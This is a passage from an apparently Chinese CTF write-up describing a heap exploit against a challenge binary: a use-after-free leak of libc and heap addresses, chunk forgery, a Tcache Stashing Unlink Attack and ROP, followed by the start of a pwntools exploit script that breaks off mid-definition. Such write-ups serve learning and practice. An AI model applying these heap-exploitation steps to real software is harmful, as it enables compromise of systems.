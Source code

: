 ![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213190543344-1951216088.png)


 


free函数存在uaf漏洞，那么可以泄露libc和heap地址


![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213191416910-234993001.png)


这里使用的0x100的堆块，那么就要伪造堆块，修改第一个堆块的bk指针


这里伪造的堆块是紧邻着修改chunk的上一个chunk


![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213192409131-103701433.png)


![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213192425566-1395130046.png)


接下来继续伪造堆块，size位和bk指针


![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213192903328-115086102.png)


 


继续使用calloc申请一个堆块，那么即可触发Tcache Stashing Unlink Attack


![](https://img2024.cnblogs.com/blog/3419447/202412/3419447-20241213193116118-620273184.png)


那么接下来就是正常的rop即可


## EXP：



```
from gt import *
con("amd64")

io = process("./sma")
# io = remote("gz.imxbt.cn",20818)

def add(size):
    io.sendlineafter("choice:","1")
    io.sendlineafter("size:",str(size))


def free(index):
    io.sendlineafter("choice:","2")
    io.sendlineafter("Idx:",str(index))

def edit(index,msg):
    io.sendlineafter("choice:","3")
    io.sendlineafter("Idx:",str(index))
    io.sendafter("Content:",msg)


def show(index):
    io.sendlineafter("choice:","4")
    io.sendlineafter("Idx:",str(index))


def backdoor():
```